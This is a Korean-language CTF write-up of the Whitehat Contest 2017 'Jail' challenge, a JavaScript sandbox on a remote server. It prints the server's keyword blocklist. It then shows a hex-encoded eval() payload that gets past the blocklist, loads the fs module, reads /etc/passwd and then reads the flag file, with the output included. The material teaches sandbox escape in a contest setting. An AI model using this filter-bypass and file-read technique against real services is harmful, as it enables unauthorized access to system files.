 # Whitehat Contest 2017 - [misc] Jail

### Description

> nc challenges.whitehatcontest.kr 5959

<br>

### Analysis

바로 nc로 붙어보니 `hint, quit` 문구를 쳐보라고 서버가 응답을 해줬다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> 
```

<br>

hint를 입력해보니 다음과 같이 RegExp 정규 표현식 안에 문자열이 쭈르륵 나열되었다. 음?

```
> hint
(input) => (new RegExp(/with|\.|;|new| |'|child|crypto|os|http|dns|net|tr|tty|zlib|punycode|util|url|ad|nc|>|`|\+|ex|=/i).test(input))
```

<br>

아무 문자열이나 입력해보았다.

리스트에 포함되지 않는 문자는 hm..이라는 응답이 오고

포함되는 문자는 nop 응답이 돌아오는 것으로 보아 필터링인 것을 알 수 있었다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> test
hm..

$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> os
nop
```

<br>

그러나 많은 필터링 리스트에 eval() 함수가 빠져있다.

eval() 함수 + 인코딩으로 필터링 우회가 가능할 것 같다.

<br>

### Exploit

[node.js][node.js] API 문서를 참고해보니 readFileSync() 함수를 사용하여 js 파일 시스템에 접근이 가능했다.

파일 시스템 접근을 위해 'fs' 모듈을 임포트 해줘야 하므로 with 함수와 require를 함께 사용한다.

> query:  with(require('fs')){readFileSync('/etc/passwd')}
>
> encoded:  \x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x27\x29\x7d

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x27\x29\x7d")
your input root:x:0:0:root:/root:/bin/ash
.
.
.
guest:x:405:100:guest:/dev/null:/sbin/nologin
nobody:x:65534:65534:nobody:/:/sbin/nologin
node:x:1000:1000:Linux User,,,:/home/node:/bin/sh
jail:x:1001:1001:Linux User,,,:/home/jail:
```

<br>

눈에 익은 계정이 하나 보인다. 

계정 디렉터리 아래 플래그가 있는지 확인해보았다.

```
$ nc challenges.whitehatcontest.kr 5959
Hello Java-Script Jail
type: hint, quit
> eval("\x77\x69\x74\x68\x28\x72\x65\x71\x75\x69\x72\x65\x28\x27\x66\x73\x27\x29\x29\x7b\x72\x65\x61\x64\x46\x69\x6c\x65\x53\x79\x6e\x63\x28\x27\x2f\x68\x6f\x6d\x65\x2f\x6a\x61\x69\x6c\x2f\x66\x6c\x61\x67\x27\x29\x7d")
your input flag is {easy~esay!easy?_Jav4-scr1pt~yay}
```

flag is

**easy~esay!easy?_Jav4-scr1pt~yay**



[node.js]: https://nodejs.org/api/fs.html